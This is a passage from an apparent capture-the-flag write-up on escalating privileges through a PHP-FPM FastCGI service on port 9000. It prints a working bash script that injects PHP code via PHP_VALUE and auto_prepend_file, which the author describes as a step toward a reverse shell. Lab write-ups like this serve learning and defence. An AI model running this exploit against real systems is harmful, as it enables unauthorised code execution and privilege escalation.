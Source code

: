 ### PHP-FPM

I ran `netstat -tulpn` to see what services were running on the machine, and found that port 9000 was listening to something.

<figure><img src="../../../.gitbook/assets/image (6) (7) (1).png" alt=""><figcaption></figcaption></figure>

I also ran LinPEAS to find some escalation vectors to victor. This user was also running the `php-fpm` master process or something.

<figure><img src="../../../.gitbook/assets/image (5) (8).png" alt=""><figcaption></figcaption></figure>

Further enumeration reveals that port 9000 was FastCGI, and this was vulnerable to RCE. Since Victor is running it, this is our privilege escalation vector. We just need to make a script that would give us another reverse shell.

Here's the script;

```bash
#!/bin/bash

PAYLOAD="<?php echo '<!--'; system('whoami'); echo '-->';"
FILENAMES="/tmp/index.php" # Exisiting file path

HOST='127.0.0.1'
B64=$(echo "$PAYLOAD"|base64)

for FN in $FILENAMES; do
    OUTPUT=$(mktemp)
    env -i \
      PHP_VALUE="allow_url_include=1"$'\n'"allow_url_fopen=1"$'\n'"auto_prepend_file='data://text/plain\;base64,$B64'" \
      SCRIPT_FILENAME=$FN SCRIPT_NAME=$FN REQUEST_METHOD=POST \
      cgi-fcgi -bind -connect $HOST:9000 &> $OUTPUT

    cat $OUTPUT
done
```
